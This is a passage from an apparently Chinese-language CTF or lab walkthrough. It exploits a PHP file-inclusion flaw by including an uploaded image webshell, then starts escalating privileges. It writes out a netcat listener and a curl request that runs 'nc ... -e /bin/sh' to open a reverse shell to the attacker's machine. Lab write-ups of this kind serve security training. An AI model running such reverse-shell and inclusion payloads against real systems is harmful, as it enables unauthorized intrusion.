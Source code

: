   不难看出，可以通过`$_POST['load']`对网站根目录下任意文件进行包含。所以我,们先通过`/panel.php`上传一个图片马，然后构造请求进行包含即可。

  `ccl.png`

  ![](./img/shell.jpg)

  

  ![](./img/ccl.jpg)

# 提权至root

- 反弹shell

  为了提权，首先我们需要反弹个shell。

  监听本地4444端口

  ```bash
  nc -lvp 4444
  ```

  使用nc在目标服务器反弹shell

  ```bash
  curl http://192.168.245.132/panel.php -b "PHPSESSID=n84resdb8kifghj18g41ktm1l6" -d "load=uploaded_images/ccl.png&continue=continue&cmd=system('nc 192.168.245.154 4444 -e /bin/sh');" -o tmp
  ```

  问题不期而至。本地4444端口依旧处于监听状态，但没有任何反应，没有得到我想要的shell。

  首先我想到可能是目标服务器没有nc，查看发现是有的

  ![](./img/nc.jpg)

  进一步确认`/bin/sh`或`/bin/bash`也都是存在的，权限也没有问题。
